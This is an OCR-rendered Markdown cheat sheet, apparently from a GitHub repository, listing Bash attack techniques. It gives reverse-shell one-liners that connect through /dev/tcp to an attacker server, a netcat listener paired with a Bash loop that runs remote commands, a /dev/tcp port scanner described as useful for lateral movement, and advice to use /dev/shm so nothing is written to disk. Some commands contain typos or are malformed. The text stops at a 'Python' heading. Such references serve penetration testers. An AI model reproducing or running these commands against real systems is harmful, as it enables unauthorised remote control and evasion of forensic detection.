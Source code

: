 # Shells

>  A shell is software/protocol that provides an interface for an CLI to the underlying OS


### BASH

Bash as it stands, is a (the most popular) shell on its own, but can also provide some really neat tricks to allow for all kinds of shell related goodness, such as a reverse shell.

#### Bash reverse shell

* Spawn a reverse shell back to your server using /dev/tcp or /dev/udp
    > bash -i >& /dev/tcp/\<yourserver>/8080 0>&1 
            > e.g  bash -i >& /dev/tcp/10.10.10.1/8080 0>&1
    <br>
    > or bassh -c bash -i >& /dev/tcp/\<yourserver>/8080 0>&1 
            > e.g bash -i >& /dev/tcp/yourserver.com/443 0>&1
    <br>

#### Bash /dev/tcp or /dev/udp port scanner

 * Using /dev/tcp or /dev/udp to do a port scan, useful for checking connected hosts for laterial movement
    * Example looking for open web connection on a remote host when no port scammer is available:
        <br> 
        > for port in {21.\.443}; do echo -e "GET / HTTP/1.0\n\n" > bash -i >& /dev/tcp/\<server>/\$port 0>&1 && echo -e "\n[Port $port is UP]\n"; done
        <br>
 * Of course you could also always put this in a shell script, as originally found on oreilly.com/pub/h/5299 and small mod by Luke Bonanomi [bash port scanner](https://github.com/rupert0/shell/blob/master/bash/portscanner)
<br>

    	#!/usr/bin/env bash
    	
	    for port in \$(yes scan | head -$3)
		    do
		    (( start++ ))
		    if [[ -n $(echo '' > /dev/$2/$1/$start && echo "up") ]];
			    then
				echo "Port $start" >> scan;
		    fi
	    done;
	    clear;
	    cat scan;
	    rm scan;

			> ./portscan.sh 127.0.0.1 tcp 122 2> /dev/null
<br>

 * Another useful reverse shell we could do with bash and /dev/tcp or /dev/udp is create a connection that basically mimics netcat but done purley in bash, start off with a netcat listener on your server:
	> nc -lvvvnp 8001
*	Then on the remote server we use some bash-fu
	> exec 5<>/dev/tcp/\<yourserver>/8001 && while read line 0<&5; do $line 2>&5 >\&5; done
* This will allow everything you type on your server to be executed on the remote server and the output is conveniently piped back to you 
<br>
<hr>

##### REMEMBER IF YOU NEVER WANT TO TOUCH DISK ON THE REMOTE HOST ALWAYS USE /dev/shm A SHARED MEMORY MOUNT, AS THIS IS TREATED AS VIRTUAL MEMORY AND MOUNTED AS tmpfs NOTHING IS STORED OR WRITTEN TO DISK. THE BONUS IS THAT YOU WILL SEE A VAST PERFORMANCE INCREASE TO.
<hr>

### Python


